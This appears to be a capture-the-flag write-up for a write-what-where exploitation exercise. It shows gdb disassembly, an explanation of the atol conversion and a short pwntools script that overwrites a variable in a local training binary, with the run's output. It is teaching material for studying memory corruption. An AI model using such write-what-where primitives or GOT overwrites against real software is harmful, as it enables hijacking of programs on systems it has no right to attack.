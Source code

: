 # 08_www_var Writeup

## Steps:
1. Run chall. In this challenge, the goal is to change the value of a variable at a specific address to 0xdeadc0de.
We are asked what we want to write and where to write it to, but are warned that the solution is not trivial.
```
$ ./chall 

Your goal is to modify the variable @ 0x7fffb6e517c8 to equal 0xdeadc0de

This is a write-what-where exercise, and should not be trivial. This primitive is usually
leveraged to overwrite entries on the GOT, or any writiable region of memory in the binary!

0x7fffb6e517a0: 0x0000000000000000 0x0000000000000000 
0x7fffb6e517b0: 0x0000000000000000 0x0000000000000000 
0x7fffb6e517c0: 0xffffffffffffffff 0x00000000deadbeef 

What would you like to write? AAAA
Where would you like to write it? AAAA
zsh: segmentation fault  ./chall
```
2. Since we are given `what` to write and `where`, we can use `recv` to collect the address of `where` and `0xdeadc0de` as `what`.
3. But, just printing these values still leads to a seg fault. This is where we remember that we are warned the solution is not trivial.
So `disas main` using gdb gef. Notice after `fgets` the program uses `atol`.

```
   0x0000000000401702 <+284>:   call   0x401100 <fgets@plt>
   0x0000000000401707 <+289>:   lea    rax,[rbp-0x30]
   0x000000000040170b <+293>:   mov    rdi,rax
   0x000000000040170e <+296>:   call   0x401110 <atol@plt>
   0x0000000000401713 <+301>:   mov    QWORD PTR [rip+0x299e],rax        # 0x4040b8 <val>
   0x000000000040171a <+308>:   lea    rdi,[rip+0xa87]        # 0x4021a8
   0x0000000000401721 <+315>:   mov    eax,0x0
```
Check the man pages if you don't know what atol does.
```
long atol(const char *nptr);

DESCRIPTION
       The  atoi()  function converts the initial portion of the string pointed to by nptr to int.  The behavior is
       the same as

           strtol(nptr, NULL, 10);

       except that atoi() does not detect errors.

       The atol() and atoll() functions behave the same as atoi(), except that they convert the initial portion  of
       the string to their return type of long or long long.

RETURN VALUE
       The converted value or 0 on error.
```
This means that the input we provide is converted from a string into a long integer. 
Thus, we cannot simply write the hex values; they must be strings that can be converted into decimal values equivalent to the hex values.

4. Write the payloads.
   1 -  `0xdeadc0de` converted to an `int` then `str`
   2 - address in hex converted to an `int` then `str`
```
from pwn import *

target = process('./chall')

val = int("0xdeadc0de", 16)
target.recvuntil(b"variable @ ")
addr  = target.recvuntil(b" ", False)
addr = int(addr, 16)


target.sendline(str(val))
target.sendline(str(addr))

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py
[+] Starting local process './chall': pid 106852
/home/kali/Binex-Writeups/binex_tuts/08_www_var/exploit.py:11: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(val))
/home/kali/Binex-Writeups/binex_tuts/08_www_var/exploit.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(addr))
[+] Receiving all data: Done (774B)
[*] Process './chall' stopped with exit code 1 (pid 106852)
to equal 0xdeadc0de

This is a write-what-where exercise, and should not be trivial. This primitive is usually
leveraged to overwrite entries on the GOT, or any writiable region of memory in the binary!

0x7ffcb67a3570: 0x0000000000000000 0x0000000000000000 
0x7ffcb67a3580: 0x0000000000000000 0x0000000000000000 
0x7ffcb67a3590: 0xffffffffffffffff 0x00000000deadbeef 

What would you like to write? Where would you like to write it? 
0x7ffcb67a3570: 0x3633333237303431 0x0a38363538343939 
0x7ffcb67a3580: 0x0000000000000000 0x0000000000000000 
0x7ffcb67a3590: 0xffffffffffffffff 0x00000000deadc0de

Congrats! You modified the target variable!
```
